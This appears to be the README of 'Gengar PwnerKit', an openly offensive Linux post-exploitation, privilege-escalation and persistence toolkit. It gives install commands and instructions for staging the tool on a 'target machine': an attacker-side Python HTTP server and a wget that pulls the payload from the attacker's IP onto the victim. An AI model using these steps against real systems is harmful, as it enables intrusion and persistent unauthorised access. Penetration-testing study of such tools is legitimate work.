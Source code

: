# Gengar PwnerKit

> <div>
>     <img src="https://img.shields.io/badge/-Linux-grey?logo=Linux&logoColor=white" width="70px">
>     <img src="https://img.shields.io/badge/-Bash-green?logo=GNU-Bash&logoColor=white" width="70px">
>     <img src="https://img.shields.io/badge/-Python3-3776AB?logo=Python&logoColor=white" width="90px">
>     <img src="https://img.shields.io/badge/-PHP-777BB4?logo=PHP&logoColor=white" width="65px">
> </div>

> ## | Post Exploration | Privilege Escalation | Persistence |
> 
>                  ![image](https://github.com/h0ru/gpk/blob/main/gengar.gif)
>
> ---

> ## How to install?
> ### Wget:
> ```
> wget -q https://raw.githubusercontent.com/h0ru/gpk/main/gpk -O gpk ; chmod +x gpk
> ```
> ### Curl: 
> ```
> curl -q https://raw.githubusercontent.com/h0ru/gpk/main/gpk -o gpk ; chmod +x gpk
> ```
> ---

> ## How to upload to targets machine?
> ### 1. Download the GPK
> ### 2. Attacker Machine:  
> ```
> python3 -m http.server PORT
> ``` 
> ### 3. Target Machine:
> ```
> wget YOURIP:PORT/gpk ; chmod +x gpk
> ```
> ---

> ## GPK uses these other scripts
> ### ➫ [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)
> ### ➫ [Linux Exploit Suggester ](https://github.com/The-Z-Labs/linux-exploit-suggester)
> ---
